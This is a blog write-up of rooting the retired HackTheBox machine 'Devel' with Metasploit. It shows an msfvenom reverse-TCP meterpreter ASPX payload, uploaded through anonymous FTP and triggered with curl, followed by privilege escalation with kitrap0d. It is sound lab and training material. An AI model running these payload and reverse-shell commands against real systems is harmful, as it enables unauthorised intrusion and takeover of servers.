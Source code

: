 ```yaml
---
layout: post
title: "Writeup: HackTheBox Devel - with Metasploit"
description: "Rooting Devel using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][]. All published writeups are for retired HTB machines. Whether
 or not I use Metasploit to pwn the server will be indicated in the title.

# Devel

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.5</small>_

As always, I start enumeration with [AutoRecon][]. The open ports are TCP/21 and TCP/80. While AutoRecon continues
 scanning, I look into the FTP server. It allows anonymous login! I note that in my mind map and leave it for now to
  check on the results of AutoRecon.

I look at what the nmap HTTP script scan found:

![http-scans-command][]

At the bottom of the results, I see a CVE was found:

![http-scans-vuln][]

I see this CVE is tied to [MS-15-034][] and run that through searchsploit:

![searchsploit-results][]

I take a look at the C exploit:

![exploit-code-top][]

I see that the main body of the payload is simply running a validation on whether the target is vulnerable to this CVE.

![exploit-code-main][]

Well, that would still be useful so let's compile and execute the code:

![compile-check][]

Great. Now what?

I back off and take another look at my enumeration results. I know this is a Windows machine because the server at
 TCP/80 is running IIS. I know it has a CVE. I know that I have anonymous access via FTP to the server, to a
  directory that appears to host the web server's files.
  
Ah. Ok.

Let's generate a reverse TCP meterpreter payload with msfvenom, push it to the target via FTP, then call it from the
 web server to execute and establish a shell back to my box.

The payload command is:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.33 LPORT=4444 -f aspx > devel.aspx
```

Substitute the LHOST and LPORT as applicable for your system.

I can now push the file via FTP with `put`:

```bash
ftp 10.10.10.5
# anonymous login
> put ./devel.aspx
```

Then I need to start a meterpreter handler on my machine listening on LPORT.

```bash
sudo msfconsole
msf> workspace htb
msf> use windows/meterpreter/reverse_tcp
```

I just need to set my local IP:

![meterpreter-reverse-options][]

Then I can set up a local listener by converting this to a handler:

![meterpreter-reverse-handler][]

I can now execute my payload with a curl command:

```bash
curl http://10.10.10.5/devel.aspx
```

Meterpreter records the session (ignore the `whoami -> root` command, I was confused on what terminal I was in):

![meterpreter-web-shell][]

I can now connect to the session I've created:

![meterpreter-session][]

Now let's gather information on the system and check what user I am:

![meterpreter-sysinfo][]

Ok, this is a Windows 7 machine with x86 architecture. I am logged in as the IIS user, which isn't going to give me
 much. I can't even write to my current directory. But, I should be able to write to `C:\Windows\TEMP`. I navigate
  over to there and then use `local_exploit_suggestor` to suggest some exploit modules I can run to elevate my shell
   to administrator.

![local-exploit-suggestor][]

The machine seems to be vulnerable to `exploit/windows/local/bypassuac_eventvwr` - let's try that.

It is unsuccessful, as my IIS user isn't in the Administrators group. On to the next.

![escalate-failed][]

The second exploit, `exploit/windows/local/ms10_015_kitrap0d` is successful.

![root-shell][]

I can now go and retrieve the user and root flags.

![user-flag][]

![root-flag][]

[autorecon]: https://github.com/Tib3rius/AutoRecon
[hackthebox]: https://www.hackthebox.eu
[ms-15-034]: https://docs.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-034

[compile-check]: /img/htb/devel/compile-vuln-check.png
[escalate-failed]: /img/htb/devel/escalate-failed.png
[exploit-code-top]: /img/htb/devel/exploit-code-1.png
[exploit-code-main]: /img/htb/devel/exploit-code-main-method.png
[http-scans-command]: /img/htb/devel/nmap-http-scans-command.png
[http-scans-vuln]: /img/htb/devel/nmap-http-scans-vuln-found.png
[local-exploit-suggestor]: /img/htb/devel/show-local-exploits.png
[meterpreter-reverse-handler]: /img/htb/devel/meterpreter-reverse-shell-handler.png
[meterpreter-reverse-options]: /img/htb/devel/meterpreter-reverse-shell-options.png
[meterpreter-session]: /img/htb/devel/meterpreter-sessions-reconnect.png
[meterpreter-sysinfo]: /img/htb/devel/meterpreter-sysinfo.png
[meterpreter-web-shell]: /img/htb/devel/meterpreter-web-shell.png
[root-flag]: /img/htb/devel/root-flag.png
[root-shell]: /img/htb/devel/meterpreter-root-shell.png
[searchsploit-results]: /img/htb/devel/searchsploit-results.png
[user-flag]: /img/htb/devel/user-flag.png
